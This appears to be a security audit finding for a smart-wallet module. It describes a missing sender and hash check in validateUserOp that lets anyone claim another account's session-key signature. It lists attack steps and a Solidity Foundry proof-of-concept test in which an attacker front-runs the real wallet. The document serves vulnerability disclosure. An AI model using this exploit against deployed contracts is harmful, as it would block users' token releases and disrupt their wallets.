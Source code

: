 As we can see, the `sessionKeySigner` is derived from `userOpHash` and the actual input is `userOp`. There is no check that this `userOpHash` is the hashing of that `userOp`, and there is no check that the `userOp.sender` is the actual `msg.sender`. So anyone can do the following.

- Make an attacking contract and install the module
- Listen to the transactions made by the `sessionKeySigner`
- Use the valid hash and provide different data in `userOp` (like changing the recipient of tokens)
- Consume the signature in his favour and prevent consuming it again.
- The real Modular wallet will not be able to execute this tx as it will revert from the `EntryPoint` execution in the validating process.

## Impact

Malicious users can set up modules and consume other Valid ModularAccounts' hash. preventing them from consuming the sessionKey signature and releasing the tokens.

## Proof of Concept

1. Add the following function in `test/modules/CredibleAccountModule/concrete/CredibleAccountModule.t.sol`

```solidity
function test_validateUserOp_sheildify_sender_not_checked() public withRequiredModules {
    // Enable session key
    _enableSessionKey(address(scw));
    // Claim all tokens by solver
    bytes memory usdcData = _createTokenTransferExecution(solver.pub, amounts[0]);
    bytes memory daiData = _createTokenTransferExecution(solver.pub, amounts[1]);
    bytes memory usdtData = _createTokenTransferExecution(solver.pub, amounts[2]);
    Execution[] memory batch = new Execution[](3);
    batch[0] = Execution({target: address(usdc), value: 0, callData: usdcData});
    batch[1] = Execution({target: address(dai), value: 0, callData: daiData});
    batch[2] = Execution({target: address(usdt), value: 0, callData: usdtData});
    bytes memory opCalldata =
        abi.encodeCall(IERC7579Account.execute, (ModeLib.encodeSimpleBatch(), ExecutionLib.encodeBatch(batch)));
    (PackedUserOperation memory op, bytes32 hash) =
        _createUserOpWithSignature(sessionKey, address(scw), address(cam), opCalldata);

    /*
        the `sender` will be the SCW that is getting called by the EntryPoint.
        If an attacker called `CredibleAccountModule` directly putting `sender` as
        the real `scw` the `msg.sender` will be the attacker address
    */
    address attacker = makeAddr("attacker");
    vm.stopPrank();
    vm.prank(attacker);
    cam.validateUserOp(op, hash);

    // Session is Claimed before the real SCW execute it
    assertTrue(cam.isSessionClaimed(sessionKey.pub));

    // This function will revert
    vm.expectRevert();
    vm.startPrank(address(scw));
    _executeUserOp(op);
}
```
